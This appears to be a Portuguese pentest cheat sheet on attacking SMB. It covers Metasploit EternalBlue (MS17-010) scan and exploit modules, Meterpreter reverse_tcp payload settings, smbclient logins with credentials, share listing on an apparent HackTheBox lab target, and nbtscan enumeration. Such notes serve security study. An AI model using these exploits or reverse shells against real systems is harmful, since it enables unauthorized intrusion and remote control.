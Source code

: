 modulo para validar a vulnerabilidade ao eternalblue:
```
scanner/smb/smb_ms17_010

[+] 172.16.1.145:445      - Host is likely VULNERABLE to MS17-010! - Windows 7 Ultimate 7601 Service Pack 1

```
módulo para exploitar o eternalblue:
```
exploit/windows/smb/ms17_010_psexec
exploit/windows/smb/ms17_010_eternalblue
```
**Settins architecture of the payload**
```
set PAYLOAD windows/x86/meterpreter/reverse_tcp   # 32 bits
set PAYLOAD windows/x64/meterpreter/reverse_tcp   # 64 bits

```

estabelece conexão passando usuário e senha
```
smbclient  \\\\10.10.11.35\\SYSVOL\\ -U "user%pass" 
```

```
smbclient \\\\172.30.0.103\\Utils$\\ -U dev01%dev0105 --workgroup=SRV01
```

lista os diretórios compartilhados (`--workgroup`)
```
smbclient -L \\\\10.10.11.35
smbclient -L \\\\10.10.11.35 --workgroup cicada.htb
Password for [WORKGROUP\user]:

	Sharename       Type      Comment
	---------       ----      -------
	ADMIN$          Disk      Remote Admin
	C$              Disk      Default share
	DEV             Disk      
	HR              Disk      
	IPC$            IPC       Remote IPC
	NETLOGON        Disk      Logon server share 
	SYSVOL          Disk      Logon server share 

```

lista usando protocolo v2 e v3:
```
smbclient -L \\10.10.11.35 -N -m SMB2
smbclient -L \\10.10.11.35 -N -m SMB3
```


Identifica hosts e informações de NetBIOS em uma rede (classe C)
```
sudo nbtscan 192.168.0.0/24

192.168.0.1    <00> UNIQUE   "MYPC"       [MYGROUP]
192.168.0.2    <00> UNIQUE   "ANOTHERTPC" [MYGROUP]
192.168.0.3    <00> UNIQUE   "SERVER"     [MYGROUP]

```
